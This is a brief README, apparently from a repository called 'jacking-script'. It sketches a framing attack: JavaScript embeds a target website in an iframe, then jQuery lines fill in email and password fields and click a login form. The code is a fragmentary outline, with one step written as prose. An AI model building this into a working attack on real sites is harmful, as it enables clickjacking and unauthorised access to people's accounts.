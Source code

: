 # jacking-script

# basic idea

//1    
var ifrm = document.createElement("iframe");    
ifrm.setAttribute("src", "http://target-website.com");    
ifrm.style.width = "640px";    
ifrm.style.height = "480px";    
document.body.appendChild(ifrm);    
//2    
focus on iframe or access iframe contents    
//3 fill details or click    
$('#email').val('email@gmail.com');    
$('#password').val('password');    
$('.login_form').click()    
